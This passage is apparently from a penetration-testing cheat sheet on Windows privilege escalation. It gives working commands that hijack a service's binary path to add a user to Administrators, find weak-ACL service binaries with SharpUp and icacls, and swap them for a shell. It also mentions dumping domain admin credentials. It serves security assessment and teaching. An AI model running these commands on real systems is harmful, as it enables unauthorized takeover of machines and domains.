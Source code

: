 ```posh
PsService.exe security SERVICE_NAME
```

If the ```Server Operators``` group has privileges over this service we should see something like : 

```console
[ALLOW] BUILTIN\Server Operators
                All
```
Now that we know which service to exploit, we can change its binary path to execute a command like a reverse shell or adding our user to a certain group :

```posh
sc config SERVICE_NAME binPath= "cmd /c net localgroup Administrators OUR_USER /add"
```

We will get an error when starting the service because of the previous command. But when the error is prompted check your listener or in which group you are in. You should see that the previous command worked :

```posh
sc start SERVICE_NAME
```

> If the service is already running, you can stop it with the ```sc stop SERVICE_NAME``` command.
{: .prompt-tip }

> Now that we have complete access to the domain controller, we can use crackmapexec to dump admin credentials, for example.
{: .prompt-tip }

---

## OS Attacks

### Checking Weak ACL

  We can check if there are binaries with weak ACL permission with the [SharpUp](https://github.com/GhostPack/SharpUp/) executable :

```posh
PS > .\SharpUp.exe audit
```

With the result gathered with the ```SharpUp``` command, we can sharpen our results with the ```icalcs``` command :

```posh
PS > icacls "C:\PATH\TO\THE\FILE.exe"
```

When you find a vulnerable service you can replace the executable by your own (shell, reverse shell, add your user to admin group...) and then launch the service :

```posh
sc start SERVICE_NAME
```

> Don't forget to make a copy of the executable you are replacing not to break the environment and get back to the initial state after your assessment.
{: .prompt-tip }
